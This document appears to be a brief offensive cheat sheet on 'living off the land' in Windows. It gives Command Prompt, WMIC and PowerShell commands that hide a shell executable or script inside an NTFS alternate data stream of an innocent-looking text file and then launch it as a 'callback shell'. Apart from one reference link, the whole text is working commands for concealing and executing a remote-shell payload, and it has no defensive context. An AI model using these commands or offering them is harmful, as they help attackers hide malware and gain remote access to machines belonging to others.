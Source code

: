# Living off the Land

## 01 - Command Prompt

### 1.1 - Basics

- Hide the file

`C:\> type shell.exe > file.txt:shell.exe`

- Execute it

`C:\> start file.txt:shell.exe`

### 1.2 - WMIC

- Execute Callback Shell via ADS

`C:\> wmic process create "c:\path\to\file.txt:shell.exe"`

## 02 - Powershell

### 2.1 - Basics

- Hide the file

`PS C:\> Set-Content file.txt -Stream script.ps1 -Value shell.ps1`

- Execute Callback Shell via ADS

`PS C:\> Get-Content file.txt -Stream script.ps1 | iex`

---
## References

- [r00t-3xp10it: ADS](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/ADS.md)
